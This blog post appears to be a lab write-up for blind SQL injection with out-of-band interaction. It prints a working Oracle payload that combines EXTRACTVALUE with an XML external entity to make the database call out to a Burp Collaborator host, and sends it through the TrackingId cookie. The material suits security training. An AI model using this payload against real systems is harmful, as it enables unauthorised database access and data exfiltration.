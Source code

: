 ```yaml
---
layout: post
title:  "Blind SQL injection with out-of-band interaction"
date:   2024-09-26 09:39:54 +0530
categories: [BSCP, SQLi]
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Solution 

The Particular lab is utilising oracle database and we can able to find this using the `sqlmap` and I don't wanna go further with it 

Going through the cheatsheet, In order to achieve the DNS lookup off particular server we are controlling.. this payload will be useful in it 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Let's send the above payload through `TrackingId` parameter inside `Cookie` and when we send the request.. As it response with status code of `200` 

![]({{ site.baseurl }}/assets/images/sqli54.png)

Checking the Burp collaborator, we have recieved few DNS pingbacks 

![]({{ site.baseurl }}/assets/images/sqli55.png)

Our endgoal is acheived and lab is solved 

![]({{ site.baseurl }}/assets/images/sqli56.png)